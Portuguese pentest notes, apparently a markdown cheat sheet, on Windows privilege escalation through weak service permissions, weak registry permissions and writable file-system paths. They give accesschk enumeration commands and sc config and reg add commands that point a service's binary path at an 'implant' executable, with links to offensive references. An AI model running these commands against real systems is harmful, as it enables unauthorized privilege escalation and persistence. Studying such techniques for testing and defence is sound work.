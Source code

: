 - Isso mostrará uma lista de cada service e os grupos que têm permissões de gravação para esse service. Fornecer um grupo limitará a saída aos serviços para os quais o grupo tem permissão de gravação:

- ``` C:\> accesschk.exe -accepteula -wuvc "Authenticated Users" * ```
- ``` C:\> accesschk.exe -accepteula -wuvc "Users" * ```
- ``` C:\> accesschk.exe -accepteula -wuvc "Everyone" * ```

- Para ver as configs do service:
- ``` C:\> sc query <service-name> ``` - lista services
- ``` C:\> sc qc <service-name> ``` - info do service


- Alterar a config e restart no service (se precisar)
- ``` sc config sshd binPath= "c:\implant\implant.exe" ```
- ``` sc start <service-name> ```

- Exploration
  - https://juggernaut-sec.com/weak-service-permissions-windows-privilege-escalation/
  - https://www.hackingarticles.in/windows-privilege-escalation-weak-services-permission/
  - https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation#permissions
  - https://www.ired.team/offensive-security/privilege-escalation/weak-service-permissions


#### A terceira tecnica é modificar permissões dos Registries (weak registry permissions)

- Lista dos services
- ``` C:\> accesschk.exe -accepteula -kwuqsw hklm\System\CurrentControlSet\services > output.txt ```
  - em um cenário real você faz download do arquivo para a attack machine e analisa "offline"

- reconfigurando services vulneraveis:

- Ver os paths do binarios:
- ``` reg query HKLM\SYSTEM\CurrentControlSet\services\ /s /v imagepath ```

- ``` reg add HKLM\SYSTEM\CurrentControlSet\services\<service-name> /v ImagePath /t REG_EXPAND_SZ /d C:\implant\implant.exe /f ```


- Exploration
  - https://cr0mll.github.io/cyberclopaedia/Post%20Exploitation/Privilege%20Escalation/Windows/Misconfigured%20Services/Weak%20Registry%20Permissions.html
  - https://systemweakness.com/windows-privilege-escalation-weak-registry-permissions-9060c1ca7c10
  - https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation#services-registry-modify-permissions
  - https://www.hackingarticles.in/windows-privilege-escalation-weak-registry-permission/


>___


## # Execution Flow Hijacking

> #### Unsecured File System

- Busca em todo o disk C:\ por arquivos com perms read/write no grupo Users e Authenticated Users 
- ``` accesschk.exe -accepteula -wus "Users" c:\*.* > output.txt ```
- ``` accesschk.exe -accepteula -wus "Authenticated Users" c:\*.* > auth-usr.txt ```
  - em um cenário real você faz download do arquivo para a attack machine e analisa "offiline"

